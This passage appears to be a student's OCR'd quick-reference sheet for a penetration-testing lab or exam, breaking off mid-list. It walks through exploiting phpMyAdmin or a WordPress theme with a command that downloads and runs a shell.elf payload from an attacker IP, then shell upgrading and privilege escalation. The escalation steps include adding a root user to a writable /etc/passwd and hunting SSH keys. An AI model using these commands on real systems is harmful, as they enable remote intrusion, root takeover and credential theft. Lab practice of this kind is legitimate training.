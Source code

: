 ```bash
python3 pma.py <target_IP> 80 /phpmyadmin pma pmapass 'cd /tmp; rm -f shell.elf; wget http://<attacker_IP>:8000/shell.elf; chmod +x /tmp/shell.elf; /tmp/shell.elf'
```

    * **If using WordPress manual theme edit (less recommended):** Embed the command string within a PHP `exec()` or `system()` call in the theme file (e.g., `comments.php`) and trigger it by visiting the relevant page.

```php
<?php exec("cd /tmp; rm -f shell.elf; wget http://<attacker_IP>:8000/shell.elf; chmod +x /tmp/shell.elf; /tmp/shell.elf"); ?>
```

5. **Check Connection:** Look at your `nc` listener terminal (Terminal 1). You should see a "connect to [...] from [...]" message. You now have a shell!

### 5. Shell Interaction \& Upgrade

* You likely have a basic, non-interactive shell. Test with `id` or `whoami`.
* **Upgrade to Interactive Shell:** This is crucial for using commands like `sudo`.

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

*If `python3` fails, try `python`. If `/bin/bash` fails, try `/bin/sh`.*
* You now have a more usable shell. This successfully completes Part 1.

---

## Part 2 Quick Reference (Privilege Escalation - Beyond Passing Grade)

If you complete Part 1 quickly, you can attempt Privilege Escalation (PE) for a higher grade. Here are key checks from your notes:

* **Check `sudo` rights:**
    * `sudo -l` (See if you can run commands as root without a password).
* **Find SUID/SGID binaries:**
    * `find / -perm -u=s -type f 2>/dev/null` (Find files owned by root that run with root privileges).
    * Check GTFOBins website for how to exploit these (e.g., `gdb`, `find`, `cp`, etc.).
* **Check File Permissions:**
    * `ls -l /etc/passwd /etc/shadow`
    * `getfacl /etc/passwd /etc/shadow` (Check if your user or a group you're in can write to these).
    * **If `/etc/passwd` is writable:** Add a new root user.

1. Generate hash *beforehand*: `openssl passwd -1 -salt xyz mypassword` (replace `mypassword`)
2. Append to `/etc/passwd`: `echo 'newroot:<generated_hash>:0:0:root:/root:/bin/bash' >> /etc/passwd`
3. Switch user: `su newroot` (enter `mypassword`).
* **Look for SSH keys:**
    * `ls -la /home/*/.ssh/` (Check for private keys `id_rsa`).
* **Crack Hashes:**
    * If you find hashes (e.g., in `/etc/shadow` or database dumps):
